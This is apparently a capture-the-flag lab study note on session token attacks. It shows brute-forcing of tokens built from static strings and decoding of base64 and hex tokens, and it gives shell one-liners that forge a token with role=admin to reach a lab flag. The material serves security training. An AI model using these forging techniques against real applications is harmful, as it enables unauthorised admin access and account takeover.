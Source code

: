 # 🕶️ Session Attacks

a common flaw in apps that use session token and the main danger is if a session token is too short or contains static data that does not provide randomness to the token

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption><p>easy bruteforce</p></figcaption></figure>

Now a bit more complex but as easy to break ->

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This seems complex but let's say we send plenty of requests:

```
2c0c58b27c71a2ec5bf2b4b6e892b9f9
2c0c58b27c71a2ec5bf2b4546092b9f9
2c0c58b27c71a2ec5bf2b497f592b9f9
2c0c58b27c71a2ec5bf2b48bcf92b9f9
2c0c58b27c71a2ec5bf2b4735e92b9f9
```

the static string `2c0c58b27c71a2ec5bf2b4` followed by four random characters and the static string `92b9f9`

So we can still bruteforce

Some more realistic stuff would consist of session tokens that contains encoded data

This seems very random:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But in fact ->

```shell-session
ElFelixi0@htb[/htb]$ echo -n dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy | base64 -d

user=htb-stdnt;role=user
```

So we could create our session token with a simple command:

```shell-session
echo -n 'user=htb-stdnt;role=admin' | base64
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We should also keep an eye out for data in hex-encoding or URL-encoding.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>hex-encoded data</p></figcaption></figure>

And to craft a session token we could simply use the follwoing:

```shell-session
echo -n 'user=htb-stdnt;role=admin' | xxd -p
```

_**Obtain administrative access on the target to obtain the flag.**_

```
echo -n 'user=htb-stdnt;role=admin' | xxd -p
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
